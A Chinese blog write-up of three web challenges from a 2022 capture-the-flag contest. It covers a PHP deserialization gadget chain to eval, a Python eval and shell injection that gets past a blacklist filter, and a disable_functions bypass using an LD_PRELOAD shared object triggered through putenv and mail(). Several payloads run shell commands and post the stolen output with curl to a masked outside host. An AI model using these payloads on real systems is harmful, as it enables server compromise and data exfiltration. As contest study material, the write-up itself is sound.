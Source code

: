 ```yaml
---
title: "2022DASCTF X SU Web  Writeup"
published: 2022-03-27
description: ""
category: 胡乱折腾
tags: 
  - "dasctf"
---
```


### ezpop

这一题是经典的序列化构造

```
<?php

class crow
{
    public $v1;
    public $v2;

    function eval() {
        echo new $this->v1($this->v2);
    }

    public function __invoke()
    {
        $this->v1->world();
    }
}

class fin
{
    public $f1;

    public function __destruct()
    {
        echo $this->f1 . '114514';
    }

    public function run()
    {
        ($this->f1)();
    }

    public function __call($a, $b)
    {
        echo $this->f1->get_flag();
    }

}

class what
{
    public $a;

    public function __toString()
    {
        $this->a->run();
        return 'hello';
    }
}
class mix
{
    public $m1;

    public function run()
    {
        ($this->m1)();
    }

    public function get_flag()
    {
        eval('#' . $this->m1);
    }

}

if (isset($_POST['cmd'])) {
    unserialize($_POST['cmd']);
} else {
    highlight_file(__FILE__);
}
```

构造序列化主要是关注类的几个魔术函数

\_\_destruct()： 在对象被销毁时候调用。

\_\_toString：在对象被当作字符串时调用。

\_\_call()：在调用一个对象中不存在的函数时候调用。

\_\_invoke()：对象被当作函数直接调用时候调用。

弄懂了这几个函数之后就简单了。构造一个简单的链子。

```
fin __destruct -> what __toString ->fin fun -> croe __invoke -> fin __call -> mix get_flag() -> eval
```

然后就可以执行任意代码了。

eval()#开头可以用换行符绕过去。建议python执行浏览器直接发包存在编码问题。

### calc

题目直接给了代码

```
#coding=utf-8
from flask import Flask,render_template,url_for,render_template_string,redirect,request,current_app,session,abort,send_from_directory
import random
from urllib import parse
import os
from werkzeug.utils import secure_filename
import time


app=Flask(__name__)

def waf(s):
    blacklist = ['import','(',')',' ','_','|',';','"','{','}','&','getattr','os','system','class','subclasses','mro','request','args','eval','if','subprocess','file','open','popen','builtins','compile','execfile','from_pyfile','config','local','self','item','getitem','getattribute','func_globals','__init__','join','__dict__']
    flag = True
    for no in blacklist:
        if no.lower() in s.lower():
            flag= False
            print(no)
            break
    return flag


@app.route("/")
def index():
    "欢迎来到SUctf2022"
    return render_template("index.html")

@app.route("/calc",methods=['GET'])
def calc():
    ip = request.remote_addr
    num = request.values.get("num")
    log = "echo {0} {1} {2}> d://a.txt".format(time.strftime("%Y%m%d-%H%M%S",time.localtime()),ip,num)

    if waf(num):
        try:
            data = eval(num)
            os.system(log)
        except:
            pass
        return str(data)
    else:
        return "waf!!"





if __name__ == "__main__":
    app.run(host='0.0.0.0',port=5000)

```

大概分析了下。首先是对参数进行了黑名单过滤。然后下面先eval最后又构造了系统命令。

思路瞬间清晰了。只要过了eval就可以构造任意命令执行。

然后就要利用到一个知识点 在python中#是单行注释这样就可以绕过了eval 但是在shell中#也是注释。这时就需要\`了。在shell中即使是#后面的只要用\`包裹起来就依旧可以执行。

刚开始打算nc转发shell奈何没反应，最后测速时用到了curl然后后来就选择了curl外带数据发送出去。

因为参数过滤了空格所以用tab代替了空格

```
'a'#`ls%09/>%09/tmp/a.txt`
```

```
'a'#`curls%09-ds%09@/tmp/a.txts%09http://xxxxxx:xx`
```

然后发现了flag的位置Th1s\_is\_\_F1114g

参数过滤了\_我们不能直接查看所以选择cat /\*

```
'a'#`cat%09/*>%09/tmp/a.txt`
```

```
'a'#`curls%09-ds%09@/tmp/a.txts%09http://xxxxxx:xx`
```

## upgdstore

题目打开就是提示只能上传php，先一句话测试发现被过滤了。然后查看phpinfo（）

我直接好家伙直接过滤了一大堆。最后发现eval和file\_get\_contetns没禁止，但是过滤了。最后eval通过大写直接绕过了过滤。既然有file\_get\_contents那就试试直接读取看看

[![](assets/1648358599-image.png)](https://www.xaitx.com/wp-content/uploads/2022/03/1648358599-image.png)

呃呃，权限不够，但是至少知道了文件在哪（虽然没啥用）。

这么多函数被禁那自然是想到了**disable\_functions**：查看发现putenv和mail都能用，那就直接搞起来。

百度一个c的代码然后编译。

```
#include<stdlib.h>
__attribute__((constructor)) void l3yx(){ unsetenv("LD_PRELOAD"); system(getenv("_evilcmd")); }
```

编译利用$\_FILE和move\_uploaded\_file就可以上传然后保存我们的恶意so文件了

然后利用php触发这个so就行了。

```
putenv("_evilcmd=id>/tmp/a.txt;curl -d @/tmp/a.txt http://xxx:xxx"); putenv("LD_PRELOAD=/var/www/html/test2.so"); mail('a','a','a','a');
```

为啥又用curl呢因为我又又又没弄到shell。。。。。

后来因为权限不足呃呃读不到flag。只能想办法提权。后来看了另一个师傅发的wp。他是通过搜索具有root suid属性的命令。最终发现nl具有，所以直接nl /flag就得到flag了。
